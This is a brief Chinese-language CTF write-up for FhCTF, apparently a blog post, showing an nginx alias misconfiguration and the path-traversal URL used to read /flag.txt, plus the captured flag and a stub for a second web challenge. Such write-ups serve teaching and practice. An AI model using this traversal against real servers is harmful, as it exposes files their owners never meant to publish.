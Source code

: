 ```yaml
---
description: OSINT根本是通靈
title: FhCTF writeup
pubDate: 2024/6/8 22:11:59
tags:
  -  writeup
categories:
    - Daily
---
```

## 前言
比賽成果紀錄
![ctfd.fhh4ck3rs.taipei_team](https://hackmd.io/_uploads/SJkl6WGB0.png)

![ctfd.fhh4ck3rs.taipei_scoreboard](https://hackmd.io/_uploads/Hyv7p-zSC.png)

# Writeup

## Web

### [穿越檔案的旅人]
題目提示到：**「flag 在 /flag.txt」**
```
server {
    listen 80;
    server_name _;

    location / {
        root /html;
        index index.html index.htm;
    }

    location /img {
        alias /images/;
    }
}
```
發現可以用img作為跳板
改一下url: `https://travaling.fhh4ck3rs.taipei/img../flag.txt`
> FLAG:`FhCTF{how_1_tr4v3rs4l_7h3_w0rld!}`

---

### [A Web]
~~我還是diesearch去看~~
![image](https://hackmd.io/_uploads/H1Tr1eGH0.png)
